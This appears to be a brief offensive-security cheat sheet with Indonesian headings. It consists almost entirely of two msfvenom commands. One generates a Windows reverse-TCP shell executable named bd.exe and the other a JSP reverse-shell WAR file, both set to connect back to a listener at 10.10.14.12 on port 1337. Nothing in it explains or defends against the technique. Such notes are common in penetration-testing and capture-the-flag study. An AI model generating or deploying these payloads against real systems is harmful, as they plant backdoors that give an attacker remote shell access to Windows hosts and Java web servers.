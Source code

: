 # msfvenom dengan Backconnect.exe

    msfvenom --platform windows --payload  windows/shell/reverse_tcp LHOST=10.10.14.12 LPORT=1337 -b "\x00" -f exe -o ./bd.exe

# msfvenom dengan war file

    msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.12 LPORT=1337 -f war > shell.war
